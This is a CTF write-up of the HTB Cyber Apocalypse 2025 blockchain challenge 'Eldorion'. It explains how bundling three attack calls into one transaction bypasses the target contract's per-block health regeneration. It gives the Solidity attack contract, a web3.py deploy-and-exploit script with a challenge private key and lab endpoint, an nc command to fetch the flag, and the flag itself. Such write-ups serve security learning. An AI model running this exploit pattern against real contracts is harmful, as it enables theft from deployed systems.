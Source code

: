 ```yaml
---
title: CTF Writeup ~ Blockchain Eldorian // HTBCyberApocalypse2025
date: 2025-03-27
description: The main vulnerability lies in the health regeneration mechanism. While health resets each block, we can execute multiple attacks within a single transaction (same block) to bypass this regeneration.
image: images/htb/blockchain_eldorion_writeup_hero.png
imageAltAttribute: Blockchain Eldorian writeup
tags:
- ctf
- HTBCyberApocalypse2025
- writeups
- blockchain
---
```



# CHALLENGE NAME: Eldorion

## Description:
Welcome to the realms of Eldoria, adventurer. You've found yourself trapped in this mysterious digital domain, and the only way to escape is by overcoming the trials laid before you. But your journey has barely begun, and already an overwhelming obstacle stands in your path. Before you can even reach the nearest city, seeking allies and information, you must face Eldorion, a colossal beast with terrifying regenerative powers. This creature, known for its "eternal resilience" guards the only passage forward. It's clear: you must defeat Eldorion to continue your quest.

**Points:** 950  
**Difficulty:** Very Easy
**Category:** Blockchain

---

## Solution Walkthrough

### Understanding the Challenge
The challenge involves defeating Eldorion, a smart contract with regenerative health properties. The key aspects are:
1. Eldorion has 300 health points
2. Health regenerates at the start of each block
3. We need to deal enough damage to defeat it before regeneration

### The Vulnerability
The main vulnerability lies in the health regeneration mechanism. While health resets each block, we can execute multiple attacks within a single transaction (same block) to bypass this regeneration.

### Exploitation Steps

1. **Create Attack Contract**: We create a smart contract that bundles multiple attack calls into a single transaction:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract Attack {
    function exploit(address eldorionAddress) external {
        IEldorion eldorion = IEldorion(eldorionAddress);
        eldorion.attack(100); // First attack
        eldorion.attack(100); // Second attack
        eldorion.attack(100); // Third attack
    }
}
```

2. **Deploy and Execute**: Create a Python script to deploy the attack contract and execute the exploit:

```python
from web3 import Web3
from eth_account import Account
from solcx import compile_source, install_solc

# Install and set solc version
install_solc('0.8.28')

# Connect to the RPC endpoint
w3 = Web3(Web3.HTTPProvider('http://94.237.57.187:45606'))

# Account setup
private_key = '0x927caa97e8b93ef4d1c30551c15a48b700be7b9fec72e41522a1279ee11ee93a'
account = Account.from_key(private_key)
target_address = '0x0B105bAbbaf390bB5eA5b6e9A2eB27019592b142'

print(f"Account address: {account.address}")
print(f"Target contract: {target_address}")

# Update contract source with explicit interface separation
contract_source = '''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract Attack {
    function exploit(address eldorionAddress) external {
        IEldorion eldorion = IEldorion(eldorionAddress);
        eldorion.attack(100);
        eldorion.attack(100);
        eldorion.attack(100);
    }
}
'''

# Compile contract
compiled = compile_source(
    contract_source,
    output_values=['abi', 'bin'],
    solc_version='0.8.28',
    base_path='.'
)

# Get contract interface (focusing on Attack contract)
for key, value in compiled.items():
    if ':Attack' in key:  # Find the Attack contract specifically
        contract_interface = value
        break

abi = contract_interface['abi']
bytecode = contract_interface['bin']

print("Contract ABI:", abi)  # Debug print to verify

# Create and deploy contract
contract = w3.eth.contract(abi=abi, bytecode=bytecode)
nonce = w3.eth.get_transaction_count(account.address)

deploy_tx = contract.constructor().build_transaction({
    'from': account.address,
    'nonce': nonce,
    'gas': 2000000,
    'gasPrice': w3.eth.gas_price
})

signed_tx = w3.eth.account.sign_transaction(deploy_tx, private_key)
tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)

contract_address = tx_receipt.contractAddress
print(f"Attack contract deployed at: {contract_address}")

# Create contract instance
attack_contract = w3.eth.contract(address=contract_address, abi=abi)

# Execute exploit
nonce = w3.eth.get_transaction_count(account.address)
exploit_tx = attack_contract.functions.exploit(target_address).build_transaction({
    'from': account.address,
    'nonce': nonce,
    'gas': 200000,
    'gasPrice': w3.eth.gas_price
})

signed_tx = w3.eth.account.sign_transaction(exploit_tx, private_key)
tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)

print("Exploit transaction sent:", tx_hash.hex())
print("Transaction status:", "Success" if tx_receipt.status == 1 else "Failed")
```

3. **Get the Flag**: After successfully executing the exploit, connect to the challenge server to retrieve the flag:
```zsh
nc 94.237.57.187 37328
```

## Flag

![Flag](/images/htb/blockchain_eldorion_writeup_flag.png)

```zsh
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

## Key Takeaways
1. Smart contract state changes within the same transaction occur before block-level effects
2. Bundling multiple attacks in one transaction bypassed the regeneration mechanism
3. Understanding blockchain transaction atomicity is crucial for smart contract security